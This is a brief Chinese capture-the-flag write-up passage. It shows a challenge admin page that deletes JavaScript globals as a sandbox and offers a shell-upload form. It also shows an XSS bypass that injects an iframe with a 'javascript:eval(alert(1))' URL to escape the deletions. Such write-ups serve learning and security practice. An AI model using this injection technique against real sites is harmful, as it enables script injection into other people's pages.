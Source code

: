 解码

```html
<head>
<title>Admin Panel</title>
<script>
//sandbox
delete window.Function;
delete window.eval;
delete window.alert;
delete window.XMLHttpRequest;
delete window.Proxy;
delete window.Image;
delete window.postMessage;
</script>
</head>

<body><h1>Hello admin</h1>


<p>Upload your shell</p>
<form action="/upload" method="post" enctype="multipart/form-data">
<p><input type="file" name="file"></p>
<p><input type="submit" value="upload">
</p></form>
```

然后，就进入一个深坑。。因为禁用了很多东西。。。我弱渣的JS水平，完全不会上传。

后来，网上偶然翻到一个比较相似的payload，他用了iframe的伪协议绕过了这个delete.

测试了一波

```html
<!doctype html>
<head>
<title>Admin Panel</title>
<script>
//sandbox
delete window.Function;
delete window.eval;
delete window.alert;
delete window.XMLHttpRequest;
delete window.Proxy;
delete window.Image;
delete window.postMessage;
</script>
</head>

<h1>Hello <iframe src='javascript:eval(alert(1))'></iframe></h1>


<p>Upload your shell</p>
<form action="/upload" method="post" enctype="multipart/form-data">
<p><input type="file" name="file"></input></p>
<p><input type="submit" value="upload">
</form>
```
